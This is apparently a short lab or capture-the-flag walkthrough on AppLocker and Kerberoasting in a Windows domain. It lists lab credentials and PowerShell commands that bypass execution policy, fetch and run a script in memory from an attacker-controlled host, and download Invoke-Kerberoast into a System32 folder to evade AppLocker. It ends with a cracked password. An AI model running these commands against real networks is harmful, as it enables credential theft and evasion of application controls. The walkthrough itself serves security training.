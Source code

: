 ## Table of Contents


AppLocker is an application whitelisting technology introduced with Windows 7. It allows restricting which programs users can execute based on the programs path, published, and hash.
Username: corp\dark  
Password: _QuejVudId6
  
Now we have seen there is an SPN for a user, we can use Invoke-Kerberoast and get a ticket.

Lets first download the Powershell [Invoke-Kerberoast](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1).

powershell -ep bypass;  
iex​(New-Object Net.WebClient).DownloadString('https://YOUR_IP/Kerberoast.ps1')



Now lets load this into memory: Invoke-Kerberoast -OutputFormat hashcat ​ |fl

You should get a SPN ticket.

```
powershell -c "(new-object System.Net.WebClient).Downloadfile('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1', 'C:\Windows\System32\spool\drivers\color\Invoke-Kerberoast.ps1')"
```

Crack the hash. What is the users password in plain text?
rubenF124

